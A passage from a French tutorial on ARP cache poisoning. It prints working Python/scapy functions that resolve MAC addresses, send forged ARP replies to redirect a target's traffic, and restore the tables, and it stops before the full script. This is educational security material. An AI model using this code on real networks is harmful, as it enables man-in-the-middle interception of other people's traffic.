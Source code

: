 ### Implémentation

**Note** : macOS possède une fonctionnalité intégrée appelée "ARP cache validation" qui vise à protéger contre les attaques d'ARP spoofing en vérifiant la validité des entrées dans la table ARP. Cette attaque n'a pas fonctionné sur mes appareils macOS / iOS. Cependant, elle a fonctionné sur des windows / Linux.

On va utiliser Python et la bibliothèque [scapy](https://scapy.net/) qui permet de manipuler les paquets.

On va d'abord créer une fonction qui renvoie l'adresse MAC de l'IP demandé. Cela se fait en envoyant des paquets ARP en broadcast (ff:ff:ff:ff:ff:ff).

```python
import scapy.all as scapy
import time
import argparse

def get_mac(ip):
    arp_req_frame = scapy.ARP(pdst = ip)
    broadcast_ether_frame = scapy.Ether(dst = "ff:ff:ff:ff:ff:ff")
    broadcast_ether_arp_req_frame = broadcast_ether_frame / arp_req_frame
    answered_list = scapy.srp(broadcast_ether_arp_req_frame, timeout = 1, verbose = False)[0]
    return answered_list[0][1].hwsrc
```

Grâce à la fonction spoof, on envoie un packet ARP qui va changer le cache ARP de machine cible. En effet, `scapy.ARP(op = 2, pdst = target_ip, hwdst = target_mac, psrc = spoof_ip)` permet d'envoyer un paquet à la machine ayant l'IP `target_ip` et de remplacer, dans sa table ARP à la ligne `spoof_ip`, l'adresse mac réel par notre adresse MAC.

```python
# Our mac address is sent automatically in an ARP packet, so we don't need to precise hwsrc=our_mac in scapy.ARP
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    spoof_packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = target_mac, psrc = spoof_ip)
    scapy.send(spoof_packet, verbose = False)
```

On fait une fonction restore pour rétablir les tables ARP initiales après avoir fini le spoofing.

```python
def restore(source_ip, destination_ip):
    source_mac = get_mac(source_ip)
    destination_mac = get_mac(destination_ip)
    restore_packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(restore_packet, count =1, verbose = False)
```

On ajoute argparse pour pouvoir parser des arguments en ligne de commande et on fait la boucle permettant de lancer l'ARP cache poisoning. `target_ip` correspond à l'IP de la machine cible et `gateway_ip` correspond à l'IP du router.

Le code entier donne :
